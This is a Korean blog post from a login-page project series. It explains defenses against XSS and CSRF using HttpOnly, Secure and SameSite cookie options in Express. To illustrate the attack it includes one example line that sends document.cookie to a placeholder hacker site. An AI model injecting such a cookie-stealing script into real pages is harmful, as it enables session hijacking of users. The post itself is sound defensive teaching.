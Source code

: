 ```yaml
---
title: 로그인 페이지 만들기 - 11 (XSS, CSRF)
author: Psmin
data: 2023-03-04 17:38:23 +0900
categories: [Project, Login Page]
tags: [XSS, CSRF]
---
```


## XSS

참고 글 : [XSS](https://psmin1994.github.io/posts/xss/)

XSS 공격으로 사용자의 Cookie를 접근하는 것을 막기위한 대응 방법에 대해 알아보곘습니다.

---

### HTTP Only Cookie

브라우저에 저장된 쿠키는 클라이언트에서 Javascript로 조회가 가능합니다.

![cookie-no-option](/assets/img/cookie-no-option.png){: .w-80 .center}

XSS 공격은 서버 측에서 제공되는 Script가 아닌 **권한이 없는 사용자(이하 해커)가 웹사이트에 Script를 삽입**하여 의도치 않은 동작을 일으키는 것을 말합니다.

해커가 XSS 공격을 활용해 Cookie를 탈취해 사용한다면 서버는 로그인된 사용자로 요청을 처리하게 됩니다.

```js
// 예시
location.href = "http://해커사이트/?cookies=" + document.cookie;
```

대응방법으로 **쿠키에 접근하지 못하게 HTTP Only 옵션을 설정**합니다.

```js
res.cookie("accessToken", accessToken, {
  httpOnly: true,
});
```

클라이언트에서 조회되지 않는 것을 확인할 수 있습니다.

![cookie-http-only](/assets/img/cookie-http-only.png){: .w-80 .center}

---

### Secure Cookie

HTTP Only 옵션을 통해 브라우저에서 Javascript를 이용해 쿠키에 접근하지 못하도록 막았습니다.

하지만, Javascript가 아닌 네트워크를 직접 감청하여 쿠키를 가로챌 수도 있습니다.

이를 막기 위해 **HTTPS 프로토콜을 사용해 데이터를 암호화**합니다.

HTTPS 프로토콜을 사용하면 쿠키 또한 암호화되어 전송되기 때문에 문제가 발생하지 않습니다.

Secure 옵션을 설정하면 **HTTPS 통신 외에서는 쿠키를 전달하지 않습니다.**

---

HTTPS 적용 전이므로 나중에 추가해주겠습니다.

```js
// AccessToken 재발급
res.cookie("accessToken", newAccessToken, {
  httpOnly: true,
  secure: false,
});
```

---

## CSRF (Cross-Site Request Forgery)

참고 글 : [CSRF](https://psmin1994.github.io/posts/csrf/)

CSRF를 통해 해커는 **사용자의 권한을 도용**하여 중요 기능을 실행하는 것을 막기위한 대응 방법에 대해 알아보겠습니다.

---

### First-party cookie & Third-party cookie

쿠키는 유효한 사이트를 명시하기 위해 **Domain을 설정**할 수 있습니다.

퍼스트파티 쿠키는 **현재 접속해 있는 페이지와 같은 Domain으로 전송되는 쿠키**를 의미합니다.

서드파티 쿠키는 **현재 접속하고있는 페이지에서 다른 Domain으로 전송되는 쿠키**를 의미합니다.

---

### SameSite Cookie

쿠키에 별도로 설정을 가하지 않는다면 **모든 HTTP 요청에 대해서 쿠키를 전송**하게 됩니다.

CSRF 공격은 이러한 문제를 노린 공격으로 사용자의 **권한을 도용하여 특정 웹 사이트의 기능을 실행**합니다.

대응 방법으로 **SameSite 옵션을 설정**합니다.

SameSite 쿠키의 정책으로 None, Lax, Strict 세 가지 종류를 선택할 수 있습니다.

- **None**  
  SameSite가 탄생하기 전 쿠키와 똑같이 서드 파티 쿠키도 항상 전송합니다.

- **Strict**

  퍼스트 파티 쿠키만 전송합니다.

- **Lax**

  퍼스트 파티 쿠키와 **Top Level Navigation (웹 페이지 이동)** 과, **안전한 HTTP 메서드 요청의 경우** 전송합니다.

  - 유저가 링크(`<a>`)를 클릭하거나, `window.location.replace` 등으로 인해 자동으로 이뤄지는 이동, 302 리다이렉트를 이용한 이동에느 쿠키가 전송됩니다.

  - `<iframe>`이나 `<img>`를 문서에 삽입함으로서 발생하는 HTTP 요청은 **Navigation**이라고 할 수 없으니 쿠키가 전송되지 않습니다.

  - `<iframe>` 안에서 페이지를 이동하는 경우는 **Top Level**이라고 할 수 없으므로 쿠키는 전송되지 않습니다.

  - 안전하지 않은 **POST**나 **DELETE** 같은 요청의 경우, 쿠키는 전송되지 않습니다.

  - **GET**처럼 서버의 상태를 바꾸지 않을 거라고 기대되는 요청에는 쿠키가 전송됩니다.

이제 AccessToken에 옵션을 추가해서 발급합니다.

```js
res.cookie("accessToken", accessToken, {
  sameSite: "lax",
  httpOnly: true,
  secure: false,
});
```

---

## CSRF Token

참고 글 : [CSRF-Token](https://psmin1994.github.io/posts/csrf/)

